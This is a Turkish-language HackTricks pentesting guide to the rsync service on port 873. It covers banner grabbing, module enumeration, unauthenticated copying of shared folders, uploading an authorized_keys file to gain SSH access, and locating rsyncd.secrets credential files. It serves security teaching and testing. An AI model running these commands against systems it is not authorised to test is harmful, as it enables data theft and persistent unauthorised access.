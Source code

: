 # 873 - Pentesting Rsync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Temel Bilgiler**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync**, bir bilgisayar ile harici bir sabit disk arasında ve [ağ](https://en.wikipedia.org/wiki/Computer\_network) [bilgisayarları](https://en.wikipedia.org/wiki/Computer) arasında [dosyaları](https://en.wikipedia.org/wiki/Computer\_file) [verimli bir şekilde](https://en.wikipedia.org/wiki/File\_transfer) [aktarmak](https://en.wikipedia.org/wiki/File\_transfer) ve [senkronize etmek](https://en.wikipedia.org/wiki/File\_synchronization) için bir yardımcı programdır; dosyaların [değiştirilme zamanlarını](https://en.wikipedia.org/wiki/Timestamping\_\(computing\)) ve boyutlarını karşılaştırarak çalışır.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) Genellikle [Unix benzeri](https://en.wikipedia.org/wiki/Unix-like) [işletim sistemlerinde](https://en.wikipedia.org/wiki/Operating\_system) bulunur. Rsync algoritması, [delta kodlama](https://en.wikipedia.org/wiki/Delta\_encoding) türüdür ve ağ kullanımını minimize etmek için kullanılır. [Zlib](https://en.wikipedia.org/wiki/Zlib) ek [veri sıkıştırması](https://en.wikipedia.org/wiki/Data\_compression) için kullanılabilir,[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) ve [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) veya [stunnel](https://en.wikipedia.org/wiki/Stunnel) güvenlik için kullanılabilir.

**Varsayılan port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeration

### Banner & Manuel iletişim
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Paylaşılan Klasörleri Sayma**

**Rsync modülleri**, **şifrelerle korunabilecek** **dizin paylaşımları** olarak tanınır. Mevcut modülleri belirlemek ve şifre gerektirip gerektirmediğini kontrol etmek için aşağıdaki komutlar kullanılır:
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Dikkat edin ki bazı paylaşımlar listede görünmeyebilir, bu da onları gizleyebilir. Ayrıca, bazı paylaşımlara erişim belirli **kimlik bilgileri** ile kısıtlanmış olabilir, bu da **"Erişim Reddedildi"** mesajı ile belirtilir.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Manuel Rsync Kullanımı

Bir **modül listesi** elde edildikten sonra, eylemler kimlik doğrulamanın gerekip gerekmediğine bağlıdır. Kimlik doğrulama olmadan, bir paylaşılan klasörden yerel bir dizine **listeleme** ve **kopyalama** işlemi şu şekilde gerçekleştirilir:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Bu işlem **dosyaları özyinelemeli olarak aktarır**, niteliklerini ve izinlerini korur.

**Kimlik bilgileri** ile, paylaşılan bir klasörden listeleme ve indirme aşağıdaki gibi yapılabilir; burada bir şifre istemi görünecektir:
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
To **upload content**, such as an _**authorized_keys**_ file for access, use:  
İçerik **yüklemek** için, erişim için bir _**authorized_keys**_ dosyası gibi, şunu kullanın:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

rsyncd yapılandırma dosyasını bulmak için şunu çalıştırın:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Bu dosya içinde, bir _secrets file_ parametresi **rsyncd kimlik doğrulaması** için **kullanıcı adları ve şifreler** içeren bir dosyaya işaret edebilir.


## Referanslar
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** bizi **takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
